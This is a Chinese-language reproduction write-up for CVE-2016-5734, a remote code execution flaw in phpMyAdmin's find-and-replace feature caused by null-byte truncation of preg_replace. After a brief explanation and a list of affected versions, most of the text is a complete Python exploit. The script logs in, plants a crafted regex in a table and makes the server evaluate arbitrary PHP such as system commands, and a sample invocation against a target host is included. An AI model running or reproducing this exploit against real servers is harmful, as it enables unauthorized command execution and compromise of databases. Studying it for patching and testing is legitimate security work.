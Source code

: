 （CVE-2016-5734）Phpmyadmin 后台远程命令执行漏洞
================================================

一、漏洞简介
------------

在PHP5.4.7以前，preg\_replace的第一个参数可以利用\\0进行截断，并将正则模式修改为e。众所周知，e模式的正则支持执行代码，此时将可构造一个任意代码执行漏洞。

二、漏洞影响
------------

4.0.10.16之前4.0.x版本4.4.15.7之前4.4.x版本4.6.3之前4.6.x版本（实际上由于该版本要求PHP5.5+，所以无法复现本漏洞）

三、复现过程
------------

这个功能需要登录，且能够写入数据。

因为目标环境使用root，所以我们可以创建一个临时数据库和数据表，进行漏洞利用。这里，我们使用POC来复现漏洞。

    ./cve-2016-5734.py -c 'system(id);' -u root -p root -d test http://www.0-sec.org:8080/

![VS4QW3R595\~78N763.png](resource/(CVE-2016-5734)Phpmyadmin后台远程命令执行漏洞/media/rId24.png)

-d是已经可以写的数据库，-c是待执行的PHP语句，如果没有指定表名，这个POC会创建一个名为`prgpwn`的表。

### poc

    #!/usr/bin/env python

    """cve-2016-5734.py: PhpMyAdmin 4.3.0 - 4.6.2 authorized user RCE exploit
    Details: Working only at PHP 4.3.0-5.4.6 versions, because of regex break with null byte fixed in PHP 5.4.7.
    CVE: CVE-2016-5734
    Author: https://twitter.com/iamsecurity
    run: ./cve-2016-5734.py -u root --pwd="" http://localhost/pma -c "system('ls -lua');"
    """

    import requests
    import argparse
    import sys

    __author__ = "@iamsecurity"

    if __name__ == '__main__':
        parser = argparse.ArgumentParser()
        parser.add_argument("url", type=str, help="URL with path to PMA")
        parser.add_argument("-c", "--cmd", type=str, help="PHP command(s) to eval()")
        parser.add_argument("-u", "--user", required=True, type=str, help="Valid PMA user")
        parser.add_argument("-p", "--pwd", required=True, type=str, help="Password for valid PMA user")
        parser.add_argument("-d", "--dbs", type=str, help="Existing database at a server")
        parser.add_argument("-T", "--table", type=str, help="Custom table name for exploit.")
        arguments = parser.parse_args()
        url_to_pma = arguments.url
        uname = arguments.user
        upass = arguments.pwd
        if arguments.dbs:
            db = arguments.dbs
        else:
            db = "test"
        token = False
        custom_table = False
        if arguments.table:
            custom_table = True
            table = arguments.table
        else:
            table = "prgpwn"
        if arguments.cmd:
            payload = arguments.cmd
        else:
            payload = "system('uname -a');"

        size = 32
        s = requests.Session()
        # you can manually add proxy support it's very simple ;)
        # s.proxies = {'http': "127.0.0.1:8080", 'https': "127.0.0.1:8080"}
        s.verify = False
        sql = '''CREATE TABLE `{0}` (
          `first` varchar(10) CHARACTER SET utf8 NOT NULL
        ) ENGINE=InnoDB DEFAULT CHARSET=latin1;
        INSERT INTO `{0}` (`first`) VALUES (UNHEX('302F6500'));
        '''.format(table)

        # get_token
        resp = s.post(url_to_pma + "/?lang=en", dict(
            pma_username=uname,
            pma_password=upass
        ))
        if resp.status_code is 200:
            token_place = resp.text.find("token=") + 6
            token = resp.text[token_place:token_place + 32]
        if token is False:
            print("Cannot get valid authorization token.")
            sys.exit(1)

        if custom_table is False:
            data = {
                "is_js_confirmed": "0",
                "db": db,
                "token": token,
                "pos": "0",
                "sql_query": sql,
                "sql_delimiter": ";",
                "show_query": "0",
                "fk_checks": "0",
                "SQL": "Go",
                "ajax_request": "true",
                "ajax_page_request": "true",
            }
            resp = s.post(url_to_pma + "/import.php", data, cookies=requests.utils.dict_from_cookiejar(s.cookies))
            if resp.status_code == 200:
                if "success" in resp.json():
                    if resp.json()["success"] is False:
                        first = resp.json()["error"][resp.json()["error"].find("<code>")+6:]
                        error = first[:first.find("</code>")]
                        if "already exists" in error:
                            print(error)
                        else:
                            print("ERROR: " + error)
                            sys.exit(1)
        # build exploit
        exploit = {
            "db": db,
            "table": table,
            "token": token,
            "goto": "sql.php",
            "find": "0/e\0",
            "replaceWith": payload,
            "columnIndex": "0",
            "useRegex": "on",
            "submit": "Go",
            "ajax_request": "true"
        }
        resp = s.post(
            url_to_pma + "/tbl_find_replace.php", exploit, cookies=requests.utils.dict_from_cookiejar(s.cookies)
        )
        if resp.status_code == 200:
            result = resp.json()["message"][resp.json()["message"].find("</a>")+8:]
            if len(result):
                print("result: " + result)
                sys.exit(0)
            print(
                "Exploit failed!\n"
                "Try to manually set exploit parameters like --table, --database and --token.\n"
                "Remember that servers with PHP version greater than 5.4.6"
                " is not exploitable, because of warning about null byte in regexp"
            )
            sys.exit(1)
